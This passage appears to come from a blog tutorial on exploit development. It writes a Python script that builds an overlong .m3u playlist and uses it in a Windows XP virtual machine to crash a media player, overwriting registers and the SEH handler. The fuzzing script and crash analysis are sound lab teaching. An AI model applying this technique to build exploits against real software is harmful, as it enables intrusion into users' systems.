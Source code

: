 



Ok now that we have the program opened we will create a simple little test exploit shall we?





> #!/usr/bin/python
> junk  = "\\x41" \* 6000
> exploit = junk
> handler = open ("subtitle.m3u", "w")
> handler.write(exploit)
> handler.close()



Which looks like this in my VM:



[![](https://4.bp.blogspot.com/-nupnyQsgwZI/UIxZsSMM9dI/AAAAAAAAABo/gWJyxPVMYkQ/s0/Windows+XP+Professional+SP2+-+VMware+Player_002.png)](https://4.bp.blogspot.com/-nupnyQsgwZI/UIxZsSMM9dI/AAAAAAAAABo/gWJyxPVMYkQ/s0/Windows+XP+Professional+SP2+-+VMware+Player_002.png)





Ok so now we need to compile this with the command:



> python \*dir to python script\*\\\*whatever the script was named\*


Then we load up the resulting subtitle.m3u file by doing:


1.  Click on the File icon
2.  Click on playlist
3.  Navigate to the .m3u file we created.
4.  Click open.


You should get something that looks like this:


[![](https://1.bp.blogspot.com/-wPYknSSvkNA/UIxbn2PJxPI/AAAAAAAAACA/5V8P-IlIfJE/s0/Windows+XP+Professional+SP2+-+VMware+Player_004.png)](https://1.bp.blogspot.com/-wPYknSSvkNA/UIxbn2PJxPI/AAAAAAAAACA/5V8P-IlIfJE/s0/Windows+XP+Professional+SP2+-+VMware+Player_004.png)



You should notice 3 things (sorry these are not clearly shown in the photo, just click on that registers button on the top of the upper right panel to view the registers clearly)


1.  EAX appears to be overwritten with our string that has now been transformed into Unicode.
2.  ESI also seems to be subject to a similar overwrite.
3.  The SEH handler has been overwritten with our string

Looking at the SEH handler:



[![](https://4.bp.blogspot.com/-ielJFvZfpSQ/UIxccDRZiHI/AAAAAAAAACI/eu6YngAY4t8/s0/Windows+XP+Professional+SP2+-+VMware+Player_005.png)](https://4.bp.blogspot.com/-ielJFvZfpSQ/UIxccDRZiHI/AAAAAAAAACI/eu6YngAY4t8/s0/Windows+XP+Professional+SP2+-+VMware+Player_005.png)
